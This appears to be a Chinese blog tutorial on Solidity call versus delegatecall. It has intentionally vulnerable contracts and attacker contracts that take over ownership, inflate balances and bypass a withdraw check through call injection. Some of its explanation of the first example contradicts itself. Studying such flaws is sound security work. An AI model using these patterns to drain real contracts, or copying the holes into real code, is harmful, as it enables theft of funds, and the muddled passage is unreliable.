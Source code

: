 ```yaml
---
title: "delegatecall与call注入"
date: 2023-07-21T0:19:30-04:00
categories:
  - blog
tags:
  - experience
---
```



### delegatecall与call的区别

delegatecall与call都是用来实现跨合约之间的互相调用的，但是它俩是有区别：
 - **调用call，内置变量 msg 的值会修改为调用者（合约地址），执行环境为被调用者的运行环境**
 - **调用delegatecall，内置变量 msg 的值不会修改为调用者（EOA地址），执行环境为调用者的运行环境**

如何理解呢？咱们来看下面的代码：
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract poc{

    address public sender;

    function calltest(address addr) external {
        addr.call(abi.encodeWithSignature("set()"));
    }

    function delegatecalltest(address addr) external {
        addr.delegatecall(abi.encodeWithSignature("set()"));
    }

}


contract test{
    address public sender;
    function set() external{
        sender = msg.sender;
    }

    function reset() external {
        sender = 0x0000000000000000000000000000000000000000;
    }
}

```

首先将poc和test合约给部署下，部署完成后poc和test合约中的状态变量sender默认是0x0000000000000000000000000000000000000000，调用poc合约中的calltest()方法后，你会发现test合约中的状态变量sender已经变为poc合约的地址了，此时test合约中的状态变量sender是0x0000000000000000000000000000000000000000。

咱们接着调用poc合约中的delegatecalltest()方法，你会发现test合约中的状态变量sender没有任何变化，而test合约中的状态变量sender已经变为msg.sender（EOA地址）了。

现在应该就能理解两者区别了吧。


### delegatecall可控

写了一个delegatecall可控场景，咱们可以控制data来修改合约所有者以及增加余额的操作。
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Token{
    mapping (address => uint256) public balance;
    address public owner;

    function delegatecalltest(address addr, bytes calldata data) external {
        addr.delegatecall(data);
    }


    function withdraw() external {
        require(owner == msg.sender,"not owner");
        payable(owner).transfer(address(this).balance);
    }

}


contract Attack{
    mapping (address => uint256) balance;
    address public owner;

    function updateowner() external {
        owner = msg.sender;
    }

    function addbalance() external {
        balance[msg.sender] +=1000;
    }

    function withdraw() external {
        require(owner == msg.sender,"not owner");
        payable(owner).transfer(address(this).balance);
    }


    function encode1() public view returns (bytes memory) {
        return abi.encodeWithSignature("updateowner()");
    }

    function encode2() public view returns (bytes memory) {
        return abi.encodeWithSignature("addbalance()");
    }   




}


```

部署Token、Attack合约，我们此时Token的owner所有者是默认值（零地址），包括balance也是默认值零，所以我们调用withdraw会失败。咱们通过调用Token合约的delegatecalltest方法来修改owner变量，addr为Attack合约，data为updateowner()函数签名。交易确认后，查看owner变量已经变成我的EOA地址了，接着我们调用withdraw方法就可以成功。当然我们也可以通过调用Token合约的delegatecalltest方法来修改owner变量，addr为Attack合约，data为addbalance()函数签名，来给自己的（EOA）地址增加余额。

总结：delegatecall可控还是比较危险的，相当于可以升级合约代码，攻击者可以添加自己的恶意代码并执行，来达到修改状态变量的目的。

### call注入
写了一个当call可控的场景，咱们可以结合call的特性，msg.sender会修改为调用者的，因此可以绕过对address(this) == msg.sender的判断，实现权限绕过提现。


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Test{
    bool public flag;
    function withdraw(address addr) external {
        require(address(this) == msg.sender,"not address(this)");
        payable (addr).transfer(address(this).balance);
        flag = true;
    }
    function calltest(bytes memory data) external {
        address(this).call(data);
    }

    function encode() public view returns (bytes memory){
        return abi.encodeWithSignature("withdraw(address)",msg.sender);

    }
}

```

部署Test合约，首先尝试直接调用withdraw方法，交易失败，因为此时address(this) == msg.sender不满足。但因为Test合约中存在call可控的方法calltest，咱们就可以绕过这个限制，此时msg.sender是Test合约地址，传入withdraw的函数签名即可完成取款。

总结：call可控只能调用原始合约中已有的方法，需要注意的是msg.sender是调用合约的地址，transfer、burn、approve那些方法都是取msg.sender值的。


